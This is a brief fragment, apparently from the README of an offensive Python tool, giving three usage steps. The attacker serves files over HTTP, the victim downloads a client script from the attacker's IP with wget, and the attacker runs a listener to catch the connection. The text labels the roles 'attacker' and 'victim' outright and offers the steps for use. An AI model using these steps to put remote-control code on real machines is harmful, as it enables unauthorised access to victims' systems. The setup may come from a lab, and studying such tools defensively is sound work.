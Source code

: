 1. (on attacker): python3 http_server.py
2. (on victim): wget 10.10.14.7:8000/victim_client_10.10.14.7.py
3. (on attacker): python3 listener.py
